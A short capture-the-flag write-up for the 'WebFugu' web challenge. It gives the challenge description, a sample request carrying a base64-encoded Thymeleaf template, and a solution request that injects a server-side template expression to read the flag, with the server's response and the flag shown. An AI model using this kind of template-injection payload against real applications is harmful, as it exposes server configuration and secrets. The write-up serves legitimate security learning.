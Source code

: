 # WebFugu

## Description

A new site listing the different species of fugu fish has appeared on the net. Used by many researchers, it is nevertheless vulnerable. Find the vulnerability and exploit it to recover some of the website configuration.

Creator: MasterFox

http://webfugu.sharkyctf.xyz


Getting the page content:
```
GET /process?page=PGRpdj4gPHRhYmxlIGJvcmRlcj0iMSI%2BIDx0cj4gPHRoPk5hbWU8L3RoPiA8dGg%2BRGlzY292ZXJ5IHllYXI8L3RoPiA8dGg%2BRGlzY292ZXJlciBuYW1lPC90aD4gPC90cj4gPHRyIHRoOmVhY2ggPSJmaXNoIDogJHtmaXNoZXN9Ij4gPHRkIHRoOnV0ZXh0PSIke2Zpc2gubmFtZX0iPi4uLjwvdGQ%2BIDx0ZCB0aDp1dGV4dD0iJHtmaXNoLmRpc2NvdmVyeVllYXJ9Ij4uLi48L3RkPiA8dGQgdGg6dXRleHQ9IiR7ZmlzaC5kaXNjb3ZlcmVyTmFtZX0iPi4uLjwvdGQ%2BIDwvdHI%2BIDwvdGFibGU%2BIDwvZGl2PiAgICAgIAo= HTTP/1.1
Host: webfugu.sharkyctf.xyz
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://webfugu.sharkyctf.xyz/
Connection: close

```

## Solution

```
GET /process?page=<@urlencode_1><@base64_0><div> [[${#ctx.flag.content}]]  </div>      
<@/base64_0><@/urlencode_1> HTTP/1.1
Host: webfugu.sharkyctf.xyz

```

```
HTTP/1.1 200 
Server: nginx/1.14.2
Date: Sat, 09 May 2020 14:12:44 GMT
Content-Type: text/html;charset=UTF-8
Connection: close
Content-Length: 75

<div> shkCTF{w31rd_fishes_6ee9f7aabf6689c6684ad9fd9ffbae5a}  </div>      

```